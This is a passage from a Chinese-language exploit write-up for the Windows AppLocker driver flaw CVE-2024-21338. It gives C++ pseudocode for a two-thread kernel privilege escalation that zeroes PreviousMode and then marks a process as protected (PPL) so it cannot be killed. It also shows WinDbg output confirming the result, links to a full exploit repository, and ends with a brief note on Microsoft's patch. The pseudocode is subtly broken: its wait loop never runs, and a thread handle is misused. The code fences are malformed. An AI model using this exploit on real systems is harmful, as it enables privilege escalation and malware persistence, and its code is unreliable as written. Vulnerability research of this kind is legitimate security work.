2. **线程A** 触发漏洞修改自身`PreviousMode`字段完成内核态提升后，再通过`NtWriteVirtualMemory`将**线程B**的`PreviousMode`字段置为0。
3. **线程A** 随即退出，隔离内存篡改带来的不稳定因素。
4. 调度 **线程B** 执行后续操作，此时其所有系统调用将被内核判定为内核模式发起，从而绕过用户态安全检查。
伪代码如下：
```cpp
BOOL threadBReady = 0;
// 线程A：跳板线程，负责触发漏洞提升权限
DWORD WINAPI ThreadA(LPVOID lpParam) {
    // 拿到Local Service令牌完成前置条件
    ...
    // 寻找内核写原语并动态获取PreviousMode偏移量
    ...
    // 1. 构造漏洞利用结构体
    APPID_KERNEL_EXPLOIT exploit = {0};
    exploit.Reserved = (DWORD64)ThreadApreviousModeAddress+0x30;
    exploit.pFileObject = fileObjectAddr;
    PVOID shellcodeArray[2] = {0};
    shellcodeArray[0] = (PVOID)ObpDirectoryTeardownCallbackAddr;
    shellcodeArray[1] = (PVOID)ZwQuerySystemInformationAddr;

    // 2. 触发漏洞，将自身PreviousMode置为0，注意第四个参数在Win10为0x18
    DeviceIoControl(hDevice, 0x22A018, &exploit, sizeof(exploit), NULL, 0, NULL, NULL);
    UCHAR PreviousModeValue = 0;
    // 3. 提权成功后，修改线程B的PreviousMode
    NTSTATUS status = NtWriteVirtualMemory(GetCurrentProcess(), ThreadBpreviousModeAddress, &PreviousModeValue, sizeof(BYTE), NULL);
    if (status != STATUS_SUCCESS)
    {
        cout << "提权失败，错误码：" << hex << status << endl;
        return 1;
    }
    threadBReady = 1;
    return 0;
}

// 线程B：攻击线程，执行内核操作
DWORD WINAPI ThreadB(LPVOID lpParam) {
    // 等待线程A完成提权
    while(0)
    {
        if(threadBReady)
            break;
        Sleep(300);
    }

    // 此时PreviousMode已为0，执行内核模式系统调用，如NtWriteVirtualMemory
    // 可以修改当前进程的EPROCESS的Protection字段为0x61，成为PPL进程
    UCHAR Value = 0;
    NtWriteVirtualMemory(hProcess, BaseAddress, &Value, sizeof(BYTE), NULL);
    
    return 0;
}

// 主线程：创建并调度双线程
int main() 
{
    HANDLE hThreadB = CreateThread(NULL, 0, ThreadB, &threadBReady, 0, NULL);
    HANDLE hThreadA = CreateThread(NULL, 0, ThreadA, &threadBReady, 0, hThreadB);
    
    WaitForSingleObject(hThreadA, INFINITE);
    if(!threadBReady)
        return 1;
    WaitForSingleObject(hThreadB, INFINITE);
    return 0;
}
```
完整的漏洞利用代码在我的 [GitHub仓库](https://github.com/MistyFir/CVE-2024-21338-Exploit) 中。

### 4.2 实际应用
通过利用 **CVE-2024-21338** 漏洞，我们可以将自身进程的`Protection`字段修改为任何值，从而实现进程保护：
1. 我们打开 WinDbg 对 Windows 10 1709 进行双机调试。
2. 在`services.msc`中启动 Application Identity 服务，并运行`CVE-2024-21338.exe`，如图所示：

3. 复制`ETHREAD`的地址，在 WinDbg 输入以下命令：
    ```
    0: kd> dt nt!_KTHREAD ffffa5001a211700 PreviousMode
    +0x232 PreviousMode : 1 ''
    ```js
    可以看出，`PreviousMode`字段为1，说明当前线程为用户模式线程，我们按回车键进入内核态再看看变化：
    ```js
    0: kd> dt nt!_KTHREAD ffffa5001a211700 PreviousMode
    +0x232 PreviousMode : 0 ''
    ```
    可以看出，`PreviousMode`字段为0，说明当前线程为内核模式线程，现在我们用 WinDbg 获取CVE-2024-21338.exe进程的`Protection`字段地址：
    ```js
    4: kd> dt nt!_KTHREAD ffffa5001a211700 PreviousMode
   +0x232 PreviousMode : 0 ''
    4: kd> !process 0 0 CVE-2024-21338.exe
    PROCESS ffffa5001a6b55c0
        SessionId: 1  Cid: 0fac    Peb: 2330a35000  ParentCid: 1080
        DirBase: 30264000  ObjectTable: ffff920f728ed980  HandleCount:  50.
        Image: CVE-2024-21338.exe
    
    4: kd> dt nt!_EPROCESS ffffa5001a6b55c0 Protection
    +0x6ca Protection : _PS_PROTECTION
    4: kd> dx -id 0,0,ffffa50018e7b040 -r1 (*((ntkrnlmp!_PS_PROTECTION *)0xffffa5001a6b5c8a))
    (*((ntkrnlmp!_PS_PROTECTION *)0xffffa5001a6b5c8a))                 [Type: _PS_PROTECTION]
        [+0x000] Level            : 0x0 [Type: unsigned char]
        [+0x000 ( 2: 0)] Type             : 0x0 [Type: unsigned char]
        [+0x000 ( 3: 3)] Audit            : 0x0 [Type: unsigned char]
        [+0x000 ( 7: 4)] Signer           : 0x0 [Type: unsigned char]
    ```
    我们在CVE-2024-21338.exe里填入`0xffffa5001a6b5c8a`并赋值0x61之后就会发现，该进程无法被正常的任务管理器结束，如图所示：
    
4. 我们用WinDbg查看CVE-2024-21338.exe进程的`Protection`字段值：
    ```js
    4: kd> dt nt!_EPROCESS ffffa5001a6b55c0 Protection
    +0x6ca Protection : 0x61 ''
    ```
    可以看出，CVE-2024-21338.exe进程的`Protection`字段值为0x61，说明该进程已经属于`PPL-WinTcb`，受到系统保护，无法用正常的手段结束掉该进程。

## 五、总结
**CVE-2024-21338** 漏洞的核心在于 AppLocker 驱动对用户态输入的校验缺失，导致攻击者可通过构造特定 IOCTL 请求实现内核态任意函数调用。尽管存在 SMEP 和 KCFG 等安全机制的限制，攻击者仍可通过寻找合法的内核写原语（如`ObpDirectoryTeardownCallback`）来实现权限提升。

双线程提权方案通过隔离内存篡改风险，显著提高了利用的稳定性，展示了攻击者如何在现代 Windows 安全机制下实现权限提升。该漏洞的发现和利用也提醒我们，内核驱动的输入校验至关重要，任何微小的疏忽都可能被攻击者利用来获取系统控制权。

### 关键技术要点
1. **漏洞触发条件**：需要 Local Service 权限上下文和 Application Identity 服务运行
2. **安全机制绕过**：通过合法内核写原语绕过 KCFG 验证，通过双线程架构隔离内存风险
3. **利用原理**：修改 `PreviousMode` 字段实现内核模式权限伪造
### 防护措施
更新到最新版本的 Windows 操作系统，微软在最新的**appid.sys**中的`0x22A018`处添加了`ExGetPreviousMode`函数进行验证，判断当前线程是否为用户模式线程，如果当前线程为用户模式线程，就会直接返回错误，而不是执行，如图所示：


